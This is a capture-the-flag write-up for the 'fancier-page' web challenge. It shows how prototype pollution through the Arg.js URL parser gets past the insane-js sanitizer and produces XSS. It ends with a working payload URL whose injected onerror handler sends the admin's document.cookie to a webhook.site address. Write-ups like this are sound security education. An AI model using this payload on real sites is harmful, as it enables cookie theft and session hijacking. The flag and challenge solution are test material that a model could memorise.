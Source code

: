 # web/fancier-page
## Description
> No description.

> Flag: flag{prototype_pollution_kills_thousands_of_websites_each_year}

## How to solve
There is 'report to admin' feature on this website. So, there must be XSS things. If we look at the `/app/scripts/display.js` there is 2 imported js module(Arg-js and insane-js). 
```
import { default as Arg } from "https://cdn.jsdelivr.net/npm/@vunamhung/arg.js@1.4.0/+esm";
import { default as insane } from "https://cdn.jsdelivr.net/npm/insane@2.6.2/+esm";
```
> Arg-js is URL argument and parameter parser.

> insane-js is HTML sanitizer, similar to Dompurify.

We can't perform basic XSS due to insane-js sanitizer. But, we have Arg.js to perform client side prototype pollution. Check out this [awesome repository](https://github.com/BlackFan/client-side-prototype-pollution). Our idea is to perform client side prototype pollution to bypass the insane-js sanitizer.

If we look at the insane-js [source code](https://github.dev/bevacqua/insane/blob/master/sanitizer.js) below.
```
function parse(key) {
    ...
    var classesOk = (o.allowedClasses || {})[low] || [];
    var attrsOk = (o.allowedAttributes || {})[low] || [];
    ...
    if (lkey === 'class' && attrsOk.indexOf(lkey) === -1) {
        value = value.split(' ').filter(isValidClass).join(' ').trim();
        valid = value.length;
    } else {
        valid = attrsOk.indexOf(lkey) !== -1 && (attributes.uris[lkey] !== true || testUrl(value));
    }
    if (valid) {
        out(' ');
        out(key);
        if (typeof value === 'string') {
            out('="');
            out(he.encode(value));
            out('"');
        }
    }

    function isValidClass(className) {
        return classesOk && classesOk.indexOf(className) !== -1;
    }
}
```
It will check  `options.allowedClasses.<tag>` and `options.allowedAtrributes.<attr>`. Since, our default `options` looks like this :
```
const options = {
	allowedAttributes: {
		a: ["href"],
		abbr: ["title"],
		details: ["open"],
		"*": ["id", "dir"],
	},
	allowedClasses: {},
	allowedSchemes: ["http", "https"],
	allowedTags: [
		"a",
		"abbr",
		"article",
		"b",
		"blockquote",
		"br",
		"code",
		"del",
		"details",
		"div",
		"em",
		"h1",
		"h2",
		"h3",
		"h4",
		"h5",
		"h6",
		"hr",
		"i",
		"img",
		"ins",
		"kbd",
		"li",
		"main",
		"mark",
		"ol",
		"p",
		"pre",
		"q",
		"s",
		"section",
		"small",
		"span",
		"strike",
		"strong",
		"sub",
		"summary",
		"sup",
		"u",
		"ul",
	],
	filter: null,
	transformText: null,
};
```
It will sanitize the `<img src=x onerror=alert(1)>` completely. To bypass this, we can use prototype pollution. 

Our final payload looks like this :
```
http://fancier-page.hsctf.com/display.html?__proto__.img[0]=onerror&__proto__.img[1]=src&title=a&content=%3Cimg+src%3dx+onerror%3dwindow.location%3D%27http%3A%2F%2Fwebhook.site%2F0611881c-bc41-45f3-a8c9-de17092c579a%2F%3F%27%2Bdocument.cookie%3B%3E&background_color=%23ffffff&color=%23000000&font=Helvetica&font_size=16
``` 
Then send to admin bot to get the flag.
![image](https://github.com/0xazr/ctf-writeups/assets/54212814/bc8a30d6-e8ec-4426-a10d-1b5c7176ff57)
